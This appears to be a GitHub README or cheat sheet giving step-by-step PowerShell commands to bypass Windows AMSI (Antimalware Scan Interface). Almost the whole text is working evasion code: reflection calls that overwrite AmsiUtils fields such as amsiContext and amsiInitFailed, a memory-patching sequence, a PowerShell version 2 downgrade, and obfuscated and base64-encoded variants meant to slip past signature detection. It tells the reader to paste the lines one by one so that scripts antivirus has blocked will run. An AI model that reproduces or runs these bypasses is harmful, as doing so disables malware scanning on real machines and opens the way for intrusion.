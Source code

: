# AMSI Bypass steps (example)

## Github repo: https://github.com/Sh3lldon/FullBypass

### First execute

 - $mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)

### And after

 - [Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null);

 - [Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem)

### It should show something like this

 - This script contains malicious content and has been blocked by your antivirus software.

### Then you have to use AMSI bypass. Copy and paste line by line.

 - $a = [Ref].Assembly.GetTypes() | ?{$_.Name -like '*siUtils'}

 - $b = $a.GetFields('NonPublic,Static') | ?{$_.Name -like '*siContext'}

 - [IntPtr]$c = $b.GetValue($null)

 - [Int32[]]$d = @(0xff)
 
 - [System.Runtime.InteropServices.Marshal]::Copy($d, 0, $c, 1)

### After repeat

 - $mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)

### And after

 - [Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null);

 - [Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem)

### And you should not see errors about "antivirus software". At this point you bypassed AMSI. And may continue.

##### Downgrade PowerShell

    powershell -v 2 -c "<...>"

##### Classic

    sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )

##### Base64

    [Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)

##### Force AMSI error

    $w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils'
    $assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
    $field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
    $field.SetValue($null,$true)

##### On PowerShell 6

    [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('s_amsiInitFailed','NonPublic,Static').SetValue($null,$true)
